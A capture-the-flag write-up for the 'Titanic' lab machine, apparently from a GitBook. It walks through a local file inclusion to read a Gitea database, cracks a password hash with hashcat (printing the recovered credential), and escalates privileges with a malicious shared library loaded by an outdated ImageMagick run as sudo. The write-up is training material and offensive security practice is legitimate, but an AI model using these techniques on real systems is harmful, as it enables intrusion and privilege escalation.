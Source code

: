 # Titanic \[Easy]

## Report

HTTP website posts a form and downloads a 'ticket' from local, vulnerable to LFI, find an exposed gitea directory with access to source mentioning path to find creds. Leverage this to find creds for user 'developer'

Looking around, see a script which uses binary 'ImageMagick' as sudo which uses an outdated version that is vulnerable to Arbritary Code Execution

{% embed url="https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8" %}

## Cheatsheet

```
#Final path for LFI, after reading documentation
/home/developer/gitea/data/gitea/gitea.db

hashcat64.exe -m 10900 hash.txt rockyou.txt -d 1

gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
attribute((constructor)) void init(){
system("sudo cat /root/root.txt");
exit(0);
}
EOF

magick /dev/null dev/null
```

## Proof

endpoint `/book` post form data
\
`/download` variable ticket modify this yea

v2 was forbidden                                   (Was there any point?)

`/home/developer/gitea/data:/data`  (From gitea dockerfile)

`data/gitea.db`                                       (From Google, db file path)

volumes:
\
`- ./gitea:/data`                                         (From gitea documentation, SQL Database setup)

Our dockerfile mentions one path and the sql dockerfile appends to it further

Hence final path: `/home/developer/gitea/data/gitea/gitea.db`



Convert gitea PBKDF2-HMAC-SHA256 password hashes to hashcat readable form

`developer:25282528`

<figure><img src="../../.gitbook/assets/image (80).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>

<div align="left"><figure><img src="../../.gitbook/assets/image (82).png" alt="" width="563"><figcaption></figcaption></figure></div>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## In-Game Pitch Notes

Once you clock an LFI, you have to be thinking about exposing creds come on

Privesc Methodology

linpease
\
sudo -l
\
suid
\
crontab
\
no sus binaries with useless perms
\
no path exploit

opt was written in red lmao (readable by user but not world readable)

The convert command is deprecated in IMv7, use "magick" instead of "convert" or "magick convert"
